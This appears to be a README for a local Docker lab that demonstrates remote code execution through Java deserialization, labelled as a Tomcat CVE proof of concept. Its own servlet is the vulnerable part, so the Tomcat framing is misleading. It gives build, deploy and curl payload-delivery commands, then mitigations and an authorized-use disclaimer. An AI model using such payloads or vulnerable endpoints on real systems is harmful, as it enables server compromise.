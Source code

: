 # CVE-2025-24813 PoC (Apache Tomcat RCE)

Demonstrates Remote Code Execution (RCE) via unsafe Java deserialization in Tomcat 10.0.0.

---

## Requirements

* Docker
* Tomcat 10.0.0 Docker image
* Java JDK
* Curl or Python for sending requests

---

## Setup

```bash
# Install Docker and Java
sudo apt update
sudo apt install -y docker.io default-jdk

# Start Docker
sudo systemctl start docker
sudo systemctl enable docker

# Pull Tomcat image
docker pull tomcat:10.0.0
```

**Build the PoC application:**

```bash
cd ~/vuln-app-src

mkdir -p ~/vuln-app/WEB-INF/classes
javac -cp jakarta-servlet.jar -d ~/vuln-app/WEB-INF/classes ExploitServlet.java
javac -d ~/vuln-app/WEB-INF/classes SafeGadget.java

cp index.jsp ~/vuln-app
cp WEB-INF/web.xml ~/vuln-app/WEB-INF

cd ~/vuln-app
jar -cvf vuln-app.war *
```

**Deploy to Tomcat:**

```bash
docker run -d --name tomcat -p 8080:8080 tomcat:10.0.0
docker cp ~/vuln-app/vuln-app.war tomcat:/usr/local/tomcat/webapps/
docker restart tomcat

docker exec -it tomcat ls -R /usr/local/tomcat/webapps/vuln-app
```

---

## Execute PoC

```bash
# Create payload
cd ~/vuln-app-src
javac SafeGadgetSerializer.java
java SafeGadgetSerializer
ls -l payload.ser

# Send payload to Tomcat
curl -v -X POST http://localhost:8080/vuln-app/vulnerable_endpoint \
-H "Content-Type: application/x-java-serialized-object" \
--data-binary @payload.ser

# Verify execution
docker exec -it tomcat cat /tmp/pwn.txt
```

> `/tmp/pwn.txt` confirms RCE was successful.

---

## Mitigation

* Disable endpoints accepting serialized objects
* Patch Tomcat and libraries
* Apply JVM serialization filters or whitelist classes
* Remove unnecessary gadget libraries
* Run Tomcat with minimal privileges

---

## Disclaimer

* **For educational/testing purposes only**
* Test only on authorized environments
* Do not exploit production servers
